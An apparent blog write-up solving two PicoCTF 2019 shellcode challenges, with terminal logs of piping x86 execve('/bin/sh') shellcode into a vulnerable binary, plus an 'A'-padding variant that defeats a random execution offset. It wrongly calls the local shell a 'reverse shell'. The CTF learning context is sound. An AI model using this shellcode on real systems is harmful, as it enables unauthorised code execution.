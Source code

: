 ﻿---
layout: post
title:  "shellcode 1*2 - PicoCTF 2019"
description: It was easy but there is trick in the last thing.
tags: PicoCTF Pwn
---

# handy-shellcode

> Points: 50  
> Difficulty: easy  

This challenge looks easy so let's see what will happen  
After Downloading this challenge program we will use `chmod +x vuln` I think it's Basic knowledge  
Now let's run it  
```
root@kali:~/Desktop/picoctf# ./vuln
Enter your shellcode:
ls
ls
Thanks! Executing now...
Segmentation fault
```
It's Taking what any thing I type it and print it Hmmm  
Let's try to get reverse shellcode from [Shell-Code.org](http://shell-storm.org/shellcode/files/shellcode-606.php)  
So our Payload will be  
```
(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln  
```
Then you will get reverse shell it's easy to hack :D  

---

# slippery-shellcode

> Points: 200  
> Difficulty: easy  

This challenge looks like first one so let's try the same shellcode and see what will happen  
```
root@kali:~/Desktop/picoctf# (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln
Enter your shellcode:
1�Ph//shh/bin����°
                  1�@̀
Thanks! Executing from a random location now...
ls
Segmentation fault
```
Wait it's told me `from a random location` let's read the source code  
`int offset = (rand() % 256) + 1;`  
Hmm Let's see to give it bunsh of `A` in the first  
So our Payload will be  
```
(python -c "print 'A'*300+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln
```  

Let's see what will happen  

```
root@kali:~/Desktop/picoctf# (python -c "print 'A'*300+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln
Enter your shellcode:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1�Ph//shh/bin����°
  1�@̀
Thanks! Executing from a random location now...

ls
flag.txt  vuln
```
We got our shell again it's looks easy too

---

I hope u enjoyed with this writeup. You can follow me on the twitter [@Mrx_Exploit](https://twitter.com/MRX_Exploit)
